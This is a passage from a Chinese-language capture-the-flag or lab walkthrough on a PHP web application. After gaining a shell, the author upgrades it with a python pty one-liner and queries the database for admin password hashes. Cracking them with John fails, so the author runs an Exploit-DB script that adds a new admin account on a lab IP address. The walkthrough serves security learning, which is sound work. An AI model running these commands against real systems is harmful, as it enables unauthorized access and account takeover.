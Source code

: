 连接数据库，需要先将shell切换为交互式

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20230223134424820](../../../images/image-20230223134424820-1686283446322.png)

连接后，查询用户表收集管理员账户信息。

![image-20230223130117676](../../../images/image-20230223130117676-1686283446322.png)

可以看到这里admin的密码是加密了的。这里有三种思路

- 暴力破解

  > 使用john失败了。

  ![image-20230223135625792](../../../images/image-20230223135625792-1686283446323.png)

- 修改密码

  > 需要找到对应的加密脚本。

  ![image-20230223135430041](../../../images/image-20230223135430041-1686283446323.png)

  ![image-20230223130607081](../../../images/image-20230223130607081-1686283446323.png)

  

  ![image-20230223131033472](../../../images/image-20230223131033472-1686283446323.png)

- 增加一名用户（管理员权限）

  使用[SearchSploit](https://blog.csdn.net/whatday/article/details/102806149)查找是否有对应的脚本

  ![image-20230223142047059](../../../images/image-20230223142047059-1686283446323.png)

  ![image-20230223142453365](../../../images/image-20230223142453365-1686283446323.png)

  ```shell
  python2  /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.174.142/ -u admin1 -p 12345
  ```

  ![image-20230223142640254](../../../images/image-20230223142640254-1686283446323.png)

  ![image-20230223142651974](../../../images/image-20230223142651974-1686283446323.png)

### 登录后

![image-20230223131339443](../../../images/image-20230223131339443-1686283446323.png)



![image-20230223131415615](../../../images/image-20230223131415615-1686283446323.png)
